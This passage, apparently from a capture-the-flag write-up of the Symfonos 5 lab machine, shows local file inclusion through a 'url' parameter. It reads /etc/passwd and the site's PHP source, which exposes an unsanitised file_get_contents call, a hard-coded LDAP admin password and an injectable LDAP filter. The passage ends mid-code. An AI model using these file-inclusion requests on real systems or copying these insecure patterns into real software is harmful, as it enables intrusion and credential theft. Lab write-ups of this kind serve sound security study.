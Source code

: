 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

- We don't see any usernames here.
- Now lets see if we can read the `home.php` file with LFI.

```
http://10.0.2.10/home.php?url=home.php
```

![Symfonos 5 home.php LFI](symfonos5_home_php.png)

- And if we check the source code with `Ctrl + U`, we can see some PHP code.

```php
<?php
session_start();

if(!isset($_SESSION['loggedin'])){
  header("Location: admin.php");
  exit;
}

if(!empty($_GET["url"])){
  $r = $_GET["url"];
  $result = file_get_contents($r);
}
?>
```

- Lets check `admin.php`.

```
http://10.0.2.10/home.php?url=admin.php
```

- It seems to load the same login page we saw but if we check its source with `Ctrl + U`, we can see some PHP code.

```php
<?php
session_start();

if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: home.php");
    exit;
}

function authLdap($username, $password) {
  $ldap_ch = ldap_connect("ldap://172.18.0.22");

  ldap_set_option($ldap_ch, LDAP_OPT_PROTOCOL_VERSION, 3);

  if (!$ldap_ch) {
    return FALSE;
  }

  $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

  if (!$bind) {
    return FALSE;
  }

  $filter = "(&(uid=$username)(userPassword=$password))";
  $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```